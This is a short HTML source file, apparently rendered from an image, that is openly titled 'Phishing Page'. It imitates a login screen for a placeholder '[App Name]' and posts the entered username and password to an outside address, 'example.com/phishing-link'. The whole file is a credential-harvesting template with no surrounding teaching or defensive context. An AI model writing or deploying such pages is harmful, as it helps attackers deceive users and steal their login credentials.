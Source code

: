 <!DOCTYPE html>
<html>
<head>
  <title>Phishing Page</title>
</head>
<body>
  <h1>Welcome to [App Name]!</h1>
  <p>To log in, enter your username and password:</p>
  <form action="https://example.com/phishing-link">
    <input type="text" name="username" placeholder="Your Email Address">
    <input type="password" name="password" placeholder="Your Password">
    <input type="submit" value="Log In">
  </form>
</body>
</html>
